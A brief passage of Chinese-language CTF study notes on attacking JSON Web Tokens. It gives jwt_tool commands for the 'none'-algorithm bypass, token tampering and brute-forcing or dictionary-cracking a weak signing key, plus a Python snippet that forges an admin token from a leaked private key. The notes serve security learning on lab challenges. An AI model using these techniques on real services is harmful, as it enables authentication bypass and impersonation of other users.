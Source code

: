 非对称要使用方法：获取源码或者公钥私钥文件

某些签名算法，例如HS256（HMAC+SHA-256），会像密码一样使用一个任意的、独立的字符串作为秘密密钥。这个秘钥如被轻易猜到或暴力破解，则攻击者能以任意的头部和载荷值来创建JWT，然后用密钥重新给令牌签名。

### 4、其他安全参考：（源码泄漏密匙，Kid注入等）

https://blog.csdn.net/weixin_44288604/article/details/128562796

## JWT利用

利用项目：https://github.com/ticarpi/jwt_tool

-Web345(None无签名认证)

-Web346(None算法绕过签名)

-Web347(弱口令密钥获取)

-Web348(爆破密钥上题一样)

### 使用None算法

```
python3 jwt_tool.py JWT_HERE -X a
```

### 自定义修改生成

```
python3 jwt_tool.py JWT_HERE -T
```

### 使用字典破解

```
python3 jwt_tool.py JWT_HERE -C -d dictionary.txt
```

# 指定密码测试

```
python3 jwt_tool.py JWT_HERE -C -p password_here
```

## 公钥私钥泄露

服务器私钥生成jwt，利用公钥解密jwt，只要有私钥重新生成

```python
import jwt

public = open('private.key', 'r').read()

payload={"user":"admin"}

print(jwt.encode(payload, key=public, algorithm='RS256'))
```
